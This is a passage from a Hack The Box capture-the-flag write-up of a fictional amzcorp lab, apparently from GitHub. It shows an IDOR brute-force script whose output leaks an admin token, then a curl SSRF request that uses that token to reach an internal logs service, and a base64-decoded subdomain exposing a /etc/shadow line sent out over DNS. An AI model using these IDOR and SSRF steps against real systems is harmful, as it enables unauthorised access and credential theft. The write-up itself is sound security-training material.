 ```bash
        cookies=cookie_jar,
        json=payload_to_send
    )

    progress_bar.status(str(num_id))

    if "Invalid" not in resp.text:
        print(resp.text.strip())
        progress_bar.success(str(num_id))
        sys.exit(0)

```

```bash
┌──(I3isk3t㉿kali)-[~/Documents/htb]
└─$ python3 IDOR.py  
[+] uuid-check: 955
{
  "flag": "AWS{S1mPl3_iD0R_4_4dm1N}", 
  "token": "98d7f87065c5242ef5d3f6973720293ec58e434281e8195bef26354a6f0e931a1fd50a72ebfc8ead820cb38daca218d771d381259fd5d1a050b6620d1066022a", 
  "username": "testquan", 
  "uuid": "955"
}
```

# **Inspector**

In the `GetLogData()` function, there is an internal service `logs.amzcorp.local` :

<img width="718" height="293" alt="image 3" src="https://github.com/user-attachments/assets/92a68773-c5e8-41c8-9102-30c6d705cafe" />  

After obtaining the admin token in the first step, it is possible to exploit SSRF by using that token to get `/status`, pointing it to `logs.amzcorp.local`. The server will return internal logs because it can be made to fetch resources from `logs.*` on behalf of the `jobs.*` server:

```bash
┌──(I3isk3t㉿kali)-[~/Documents]
└─$ curl -s http://jobs.amzcorp.local/api/v4/status -d '{"url": "http://logs.amzcorp.local"}' -b 'api_token=98d7f87065c5242ef5d3f6973720293ec58e434281e8195bef26354a6f0e931a1fd50a72ebfc8ead820cb38daca218d771d381259fd5d1a050b6620d1066022a' -H 'Content-Type: application/json' -o logs.txt
```

<img width="884" height="326" alt="image 4" src="https://github.com/user-attachments/assets/bc86aabc-f4fe-4eea-956b-a0d6014133b0" />  

In this file, I caught some sus domain like this, it end with `.c00.xyz` and the first part may have been decoded with base64:

<img width="515" height="129" alt="image 5" src="https://github.com/user-attachments/assets/e1ac06c9-7be5-4c8a-8f24-622d5a581b73" />  

I meant, yes I was right about that sus `domain.c00.xyz`:

```bash
┌──(I3isk3t㉿kali)-[~]
└─$ echo "Z2FtZXM6KjoxODkwNjowOjk5OTk5Ojc6OjoK" | base64 -d
games:*:18906:0:99999:7:::
```
